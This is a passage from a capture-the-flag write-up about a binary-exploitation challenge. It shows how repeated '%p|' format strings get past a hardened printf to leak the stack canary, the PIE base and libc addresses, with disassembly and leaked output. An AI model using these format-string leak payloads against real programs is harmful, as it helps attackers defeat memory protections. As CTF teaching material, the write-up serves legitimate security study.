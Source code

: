 And we do, which makes our job of leaking everything we need a lot easier. However, the modified printf gives us an obstacle:

```text
%2$p
*** invalid %N$ use detected ***
Aborted

%n
*** %n in writable segment detected ***
Aborted
```

This can be easily avoided with repeated format strings:

```text
%p|%p|%p|%p|%p
0x7ffd0386b510|0x10|0x7ffd0386b510|(nil)|0x70257c70257c7025
```

* After the readline, there's a jump back in main, depending on what's in `eax`:

```text
0x000008b0      e87b010000     call sym.readline
0x000008b5      85c0           test eax, eax
0x000008b7      75cf           jne 0x888
```

Also, after readline, what's stored in `eax` is the length of the string, more on that later. So basically, if the length is 0, the program will terminate, otherwise it'll keep running:

```text
aaaa
aaaa
bb
bb

sasha@kalivm:~/OtherCTFs/asis/full_protection_distfiles$
```

### Leaking with format strings

With format strings, we need to leak:

* canary
* binary base \(`PIE`\)
* libc

Since we can't use `%[num]$p`, we need to repeat `%p|`, a maximum of 21 times \(length of 63\), as anymore would cause it to crash:

```bash
$ python -c "print '%p|' * 21"
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
```

```text
%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|%p|
0x7fffffffe130|0x10|0x7fffffffe130|(nil)|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x257c70257c70257c|0x7c70257c70257c70|0x70257c70257c7025|0x7c70257c70257c|0x7fffffffe260|0x634fd53113874a00|(nil)|0x7ffff7e18e0b|(nil)|0x7fffffffe268|0x100040000|0x555555554850|(nil)|
```
